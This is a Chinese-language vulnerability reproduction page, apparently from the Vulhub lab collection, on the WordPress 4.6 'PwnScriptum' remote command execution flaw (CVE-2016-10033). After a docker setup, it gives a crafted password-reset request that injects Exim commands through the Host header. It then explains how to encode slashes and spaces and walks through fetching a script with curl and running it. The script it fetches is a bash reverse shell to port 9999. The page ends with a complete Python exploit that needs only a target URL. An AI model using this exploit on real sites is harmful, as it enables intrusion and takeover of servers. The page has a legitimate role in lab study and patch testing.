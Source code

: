 # Wordpress 4.6 任意命令执行漏洞 PwnScriptum

## 漏洞描述

参考：https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html

## 环境搭建

Vulhub编译及运行测试环境

```
docker-compose build
docker-compose up -d
```

由于Mysql初始化需要一段时间，所以请等待。成功运行后，访问`http://your-ip:8080/wp-admin/install.php`打开站点，初始化管理员用户名和密码后即可使用（数据库等已经配置好，且不会自动更新）。

## 漏洞复现

发送如下数据包，可见`/tmp/awesome_poc`已经成功创建：

```
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}awesome_poc}} null)
Connection: close
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

wp-submit=Get+New+Password&redirect_to=&user_login=admin
```

![image-20220302225431160](./images/202203022254237.png)

![image-20220302225419095](./images/202203022254142.png)

但实际利用起来，还是有一些坑需要踏过。具体的坑有这么几个：

1. 执行的命令不能包含大量特殊字符，如`:`、引号等。
2. 命令会被转换成小写字母
3. 命令需要使用绝对路径
4. 需要知道某一个存在的用户的用户名

为了解决这些坑，漏洞作者想出了，利用`${substr{0}{1}{$spool_directory}}`代替`/`，用`${substr{10}{1}{$tod_log}}`代替空格的方法。

但是还是有很多字符不能用，所以我们需要将待执行的命令放到第三方网站中，然后通过`curl -o /tmp/rce example.com/shell.sh`的方法先将他下载到/tmp目录中，再去执行。

所以，总体来说利用过程如下：

- 编写反弹shell的exp，放到某个网页里。有如下要求：
  - 整个url的大写字母会被转换成小写，所以大写小敏感的系统不要使用大写字母做文件路径
  - 访问该网页不能跳转，因为follow跳转的参数是`-L`（大写）
- 拼接成命令`/usr/bin/curl -o/tmp/rce example.com/shell.sh`和命令`/bin/bash /tmp/rce`
- 将上述命令中的空格和`/`转换成`${substr{10}{1}{$tod_log}}`和`${substr{0}{1}{$spool_directory}}`
- 拼接成HTTP包的Host头：`target(any -froot@localhost -be ${run{command}} null)`
- 依次发送这两个拼接好的数据包

将上述过程写成[exp脚本](https://github.com/vulhub/vulhub/blob/master/wordpress/pwnscriptum/exploit.py)，将脚本中target修改成你的目标，user修改成一个已经存在的用户，`shell_url`修改成你放置payload的网址。（或直接将target作为第一个参数、`shell_url`作为第二个参数）

> example.com/shell.sh的内容为：
>
> ```
> bash -i >& /dev/tcp/your-reverse—shell-ip/9999 0>&1
> ```

执行即可获得shell：

```
python wordpress.py http://192.168.174.128:8080 example.com/shell.sh
```

监听9999端口，接收反弹shell：

![image-20220302225928420](./images/202203022259514.png)

## 漏洞POC

```python
#!/usr/bin/env python3
import requests
import sys

# wordpress's url
target = 'http://127.0.0.1' if len(sys.argv) < 1 else sys.argv[1]
# Put your command in a website, and use the website's url
# don't contains "http://", must be all lowercase
shell_url = 'example.com/1.txt' if len(sys.argv) < 2 else sys.argv[2]
# an exists user
user = 'admin'

def generate_command(command):
    command = '${run{%s}}' % command
    command = command.replace('/', '${substr{0}{1}{$spool_directory}}')
    command = command.replace(' ', '${substr{10}{1}{$tod_log}}')
    return 'target(any -froot@localhost -be %s null)' % command


session = requests.session()
data = {
    'user_login': user,
    'redirect_to': '',
    'wp-submit': 'Get New Password'
}
session.headers = {
    'Host': generate_command('/usr/bin/curl -o/tmp/rce ' + shell_url),
    'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)'
}
session.allow_redirects = False
target += '/wp-login.php?action=lostpassword'
session.post(target, data=data)

session.headers['Host'] = generate_command('/bin/bash /tmp/rce')
session.post(target, data=data)
```

